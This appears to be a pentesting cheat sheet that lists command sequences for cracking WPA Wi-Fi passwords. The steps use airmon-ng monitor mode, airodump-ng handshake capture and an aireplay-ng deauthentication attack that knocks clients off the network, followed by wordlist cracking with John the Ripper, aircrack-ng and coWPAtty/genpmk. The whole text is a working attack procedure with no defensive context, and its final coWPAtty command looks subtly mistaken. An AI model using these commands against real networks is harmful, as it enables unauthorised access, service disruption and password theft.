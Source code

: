 ### Cracking WPA with John The Ripper and Aircrack-ng

```
# Start monitor mode
airmon-ng start <INTERFACE>

# Packet capture
airodump-ng -w <CAPTURE_NAME> -c <CHANNEL> --bssid <BSSID> <INTERFACE>

# Deauthentication attack
aireplay-ng -0 1 -a <BSSID> -c <CLIENT_MAC> <INTERFACE>

# Crack with john
john -wordlist=<PASSWORDS_WORDLIST> --rules -stdout | aircrack-ng -0 -e <ESSID> -w - <CAPTURE_NAME>

or

# Capture to .hccap
aircrack-ng <CAPTURE_NAME> -J john_out

# .hccap to john syntax 
hccap2john john_out.hccap > out

# Crack with john
john -wordlist=<PASSWORDS_WORDLIST> --rules out
```

### Cracking WPA with coWPAtty

```
# Start monitor mode
airmon-ng start <INTERFACE>

# Packet capture
airodump-ng -w <CAPTURE_NAME> -c <CHANNEL> --bssid <BSSID> <INTERFACE>

# Deauthentication attack
aireplay-ng -0 1 -a <BSSID> -c <CLIENT_MAC> <INTERFACE>

# coWPAtty needs a full valid handshake, check if it can use it
cowpatty -r <CAPTURE_NAME> -c

## IF the handshake is full you can continue ##
## ELSE crack it with aircrack-ng

# Crack (slow better use aircrack-ng)
cowpatty -r <CAPTURE_NAME> -f <PASSWORDS_WORDLIST> -s <SSID>

# Generate hashes for the specific SSID (Slow to generate)
genpmk -s <SSID> -f <PASSWORDS_WORDLIST> -d <HASHES_FILENAME>

# Crack (Very fast)
cowpatty -r <PASSWORDS_WORDLIST> -d <HASHES_FILENAME> -s <SSID>
```
